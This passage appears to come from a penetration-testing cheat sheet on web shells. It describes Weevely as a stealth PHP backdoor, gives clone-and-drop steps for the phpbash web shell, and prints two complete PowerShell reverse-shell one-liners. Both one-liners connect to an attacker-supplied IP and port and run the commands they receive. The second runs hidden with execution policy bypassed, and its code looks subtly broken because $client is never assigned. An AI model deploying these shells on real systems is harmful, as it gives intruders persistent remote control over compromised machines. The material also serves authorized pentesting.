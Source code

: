 [Weevely](weevely.md) is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

### phpbash

phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

Installation:

```
git clone https://github.com/Arrexel/phpbash.git
```

Simply drop the `phpbash.php` or `phpbash.min.php` file on the target and access it with any Javascript-enabled web browser.

![](img/phpbash.png)

## powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient($ipAttacker,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$ipAttacker",$port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()
```